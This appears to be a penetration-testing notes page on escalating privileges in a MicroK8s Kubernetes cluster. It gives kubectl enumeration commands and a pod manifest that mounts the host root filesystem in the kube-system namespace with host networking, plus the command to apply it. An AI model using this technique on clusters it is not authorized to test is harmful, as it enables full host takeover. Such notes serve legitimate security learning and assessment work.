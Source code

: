 
For [[Kubernetes]] information follow the link

Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field
```

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:
  containers:
    - name: shell
      image: $imagenamegoeshere
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```

Pod breakout

Privilege Escape

Cloud Hacking

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)